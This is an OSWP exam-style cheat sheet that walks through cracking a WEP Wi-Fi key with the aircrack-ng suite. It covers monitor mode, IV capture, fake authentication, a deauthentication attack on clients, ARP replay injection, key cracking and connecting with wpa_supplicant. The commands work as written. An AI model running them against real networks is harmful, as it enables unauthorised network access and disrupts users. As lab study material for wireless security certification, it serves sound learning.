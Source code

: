 
# 🛡️ WEP Attack – SSH-only, exam-style flow

## ⚙️ 0. Initial Setup

📌 Get your interface MAC (before monitor mode) via:

```bash
cat /sys/class/net/wlan0/address
```
or
```bash
ip link show wlan0
```

then let's go!

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Enables monitor mode on `wlan0mon`.

---

## 🔍 1. Network Scanning

```bash
sudo airodump-ng wlan0mon
```

Identify:
- `BSSID`
- `Channel`
- `Associated Clients` (STATION)

---

## 🎯 2. Targeted Sniffing

```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w dump wlan0mon
```

Collects IVs for cracking.

---

## 🔐 2. At the same time: Fake Auth (mandatory before injection)

```bash
sudo aireplay-ng -1 3600 -q 10 -a <BSSID> wlan0mon
```

---

## 💣 3. (Optional) Deauth Attack

```bash
sudo aireplay-ng --deauth 5 -a <BSSID> wlan0mon
```

Forces a client to reconnect and trigger ARP traffic.

---

## 🚀 4. At the same time: ARP Replay Attack


```bash
sudo aireplay-ng --arpreplay -b <BSSID> -h <YOUR_MAC> wlan0mon
```

Injects ARP requests to increase `#Data`.
`-h` needs **your** MAC not a random one. We are pretending to be a legitimate client.

---

## 🔓 5. At the same time: Crack the WEP Key

When you see 20.000–30.000 IV in the `#Data` column you need to:


```bash
aircrack-ng dump-01.cap
```

Expected result:

```
KEY FOUND! [ 12:34:56:78:90 ]
```
---

## 🔌 6. Connect Using wpa_supplicant

### wep.conf

```ini
network={
    ssid="wifi-old"
    key_mgmt=NONE
    wep_key0="1234567890"
    wep_tx_keyidx=0
}
```

### Launch

```bash
sudo airmon-ng stop wlan0mon
sudo wpa_supplicant -i wlan0 -c wep.conf -D nl80211
sudo dhclient wlan0 -v
```

---

## ✅ 7. Verify Connection

```bash
ip a
ping 192.168.1.1
```

---

## 🧠 Extra: 
### IP vs Gateway Explanation

- **192.168.1.48** is your local IP, assigned via DHCP by the router.
- **192.168.1.1** is usually the **gateway/router**, your exit to the rest of the network or internet.
- Pinging `192.168.1.1` checks if you're actually connected to the router.
- Pinging `192.168.1.48` means you're pinging yourself — useful only for internal stack checks.

### Fake auth differences

❓ Are these two commands the same?

```bash
sudo aireplay-ng --fakeauth 0 -a <BSSID> -h <YOUR_MAC> wlan0mon
```

vs

```bash
sudo aireplay-ng -1 3600 -q 10 -a <BSSID> wlan0mon
```

No! they are not! they are similar but not the same. And here is why: 

## 📌 Command 1 – One-Time Fake Auth

```bash
sudo aireplay-ng --fakeauth 0 -a <BSSID> -h <YOUR_MAC> wlan0mon
```

- Performs a **single fake authentication attempt** with 0ms timeout.
- Registers your MAC with the target AP so it accepts injected packets.
- Output when successful:

  ```
  Authentication successful
  ```

✅ Use this for **quick testing** or **simple APs**.  
🚫 If the AP drops your session (timeout, range issues), injection will fail.

---

## 📌 Command 2 – Persistent Re-Auth

```bash
sudo aireplay-ng -1 3600 -q 10 -a <BSSID> wlan0mon
```

- `-1 3600`: re-authenticate every **3600 seconds** (1 hour).
- `-q 10`: show status every **10 seconds**.
- More stable for long-running injection or strict APs.

✅ Recommended for **OSWP labs**, **unstable links**, or **demanding routers**.

---

## 🧠 TL;DR Summary

| Command | Type | When to Use |
|--------|------|-------------|
| `--fakeauth 0` | Single shot | Quick tests, permissive routers |
| `-1 3600 -q 10` | Persistent | Long sessions, lab setup, unstable auth |

---

## 💡 Pro Tip

- Use **persistent fake auth** before launching `--arpreplay`.
- If fakeauth fails:
  - Try a different MAC with `macchanger`
  - Move closer to the AP
  - Add delay: `--fakeauth 60000`

---

Chapter closed. WEP is toast. Ready for WPA2? 😎
